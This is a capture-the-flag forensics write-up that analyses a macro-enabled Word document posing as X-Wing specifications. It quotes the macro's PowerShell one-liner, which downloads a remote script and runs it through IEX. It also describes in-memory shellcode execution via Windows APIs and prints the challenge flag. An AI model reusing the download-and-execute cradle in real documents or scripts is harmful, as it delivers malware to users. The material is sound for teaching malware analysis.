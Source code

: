 # Forensics 300 - X-Wing Specs?

## Challenge Text: 
This file was sent to Jun Sato - claiming to contian specifics on our next-gen X-Wings. However, it seems to be trickery. 

Can you help find out what this file is actually doing?

**Please note this file may trip your anti-virus, but it contains no malicious code. Everything in the file is harmless**

## Hints:

1. Check out macros in the word doc. What are they doing? 

2. Are there any strings in that binary data?

## How to Solve: 

This challenge revolves around understanding what this malicious word document is doing. 

The first step in doing this is to look at the contents of the Word Doc (It is important to remember that Office documents are basically zip files). 

Let's `vim` into the word doc: 

```
vim bad.docm
```

![ ](solution_images/vi.png)

The interesting bit here is the `word/vbaProject.bin` 

To extract that: 

```
unzip -p bad.docm word/vbaProject.bin > vbaProject.bin
```

Now lets see what strings are in this bin file: 

```
strings vbaProject.bin
```

This returns a lot, but one really interesting bit here is: 
```
powershell (New-Object System.Net.WebClient).DownloadString('https://challenges.silicon-ctf.party/for300/mal.ps1') | IEX'
```

This shows that the macro is reaching out to this site, downloading, then executing the powershell file. 

Looking at the file its downloading: 

![ ](solution_images/ps.png)

At the top are a few C# imports of Windows API calls. Then the file had a binary array declared. Looking at the rest of the file (not pictured in screenshot), the powershell executes that byte array in memory using those Windows APIs. 

This leads us to the next question, what does this byte array do? 

If you copy the byte array out to a file and convert it back to binary data (this can be done with xxd) then run strings on the binary, you will find the flag: 

`silicon{W0rd_d0cs_ca@n_b3_a_lucerative_v3ctor}`